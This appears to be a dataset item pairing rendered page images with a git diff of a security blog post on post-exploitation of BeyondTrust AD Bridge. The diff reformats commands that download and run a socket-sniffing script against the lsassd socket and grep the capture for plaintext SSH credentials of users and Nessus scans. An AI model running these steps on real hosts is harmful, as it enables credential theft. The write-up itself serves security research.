

Before and after one commit to ricardojba/ricardojba.github.io, a Jekyll site: the page built from _posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 5655 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
+++ b/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
@@ -116,19 +116,17 @@ I'll need to install wireshark/tcpdump and socat and then run a small bash scrip
 
 Since I have to wait for a SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.
 
-``
-yum -y install wireshark socat tmux
-tmux
-wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
-chmod 755 unixsock-sniff.sh
-./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
-``
+`yum -y install wireshark socat tmux`
+`tmux`
+`wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh`
+`chmod 755 unixsock-sniff.sh`
+`./unixsock-sniff.sh -u /var/lib/pbis/.lsassd`
 
 <p align="center">
   <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
 </p>
 
-If the Linux box is active with users or there is some automated scanning software that does authenticated scans against the server infrastructure (eg: Nessus) I should get their SSH logins, and capture the plain text credentials.
+If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.
 
 `tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd`
 
```
